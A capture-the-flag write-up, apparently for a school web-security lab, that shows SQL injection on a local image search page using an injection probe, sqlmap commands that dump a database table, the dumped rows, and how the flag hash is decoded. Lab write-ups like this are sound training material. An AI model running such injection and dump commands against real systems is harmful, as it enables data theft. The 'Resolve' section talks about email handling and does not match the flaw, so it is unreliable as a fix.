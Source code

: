 # 01_Unsecure_img_search

The GET parameter in the image search form is vulnerable  
Where: http://192.168.1.59/?page=searchimg

## Method

Go to http://192.168.1.59/?page=searchimg  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --dump -T list_images
```  
where `list_images` refers to the table name  

```bash
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

Decode flag  
```bash
1928e8083cf461a51303633093573c46 -> albatroz -> F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188
```  


## Resolve

- Store email in a variable on the backend
- Process email on submit to check that it is correct.

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
